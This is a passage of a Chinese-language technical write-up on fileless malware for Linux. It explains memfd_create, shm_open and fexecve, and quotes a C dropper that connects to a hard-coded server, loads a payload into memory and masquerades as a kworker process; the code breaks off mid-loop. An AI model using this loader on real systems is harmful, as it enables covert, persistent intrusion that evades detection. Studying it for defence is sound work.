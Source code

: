 # 0x00 无文件攻击(Linux)

持久控制、不落地种马、躲避检测。

## 1 整体思路

**step1**: 代码寄存。将核心代码放到远离目标的远端服务器上。

elf文件、命令、脚本语言代码。



**step2**: 加载代码到内存。

shm_open 创建共享内存文件，源于Linux进程间使用共享达到快速交换数据的思想。该文件存在于/dev/shm/或/tmpfs/目录下。

memfd_create 获取一个匿名文件并返回可供操作的文件描述符。该匿名文件存在于/proc/pid/fd/目录下。

基于shm_open的无文件攻击现在已经没人讨论了，隐身性较差。



**step3**: 调用运行。

libc提供了不少执行可执行文件的函数，这类函数常被称为execl函数族。fexecve是无文件攻击场景下最爱用的函数，给定一个文件描述符，它就能运行指向的文件。



### 1.1 公开进展

当前针对Linux的无文件攻击demo普遍要求目标设备上有一个已落地文件。这个落地文件是个加载器，用它加载真正需要运行的代码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/image-20211202145901770.png)

#### 1.1.1 C码加载器

```c
//https://0x00sec.org/t/super-stealthy-droppers/3715
#include <stdio.h>
#include <stdlib.h>

#include <sys/syscall.h>

#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define __NR_memfd_create 319
#define MFD_CLOEXEC 1

static inline int memfd_create(const char *name, unsigned int flags) {
    return syscall(__NR_memfd_create, name, flags);
}

extern char        **environ;

int main (int argc, char **argv) {
  int                fd, s;
  unsigned long      addr = 0x0100007f11110002;
  char               *args[2]= {"[kworker/u!0]", NULL};
  char               buf[1024];

  // Connect
  if ((s = socket (PF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0) exit (1);
  if (connect (s, (struct sockaddr*)&addr, 16) < 0) exit (1);
  if ((fd = memfd_create("a", MFD_CLOEXEC)) < 0) exit (1);

  while (1) {
```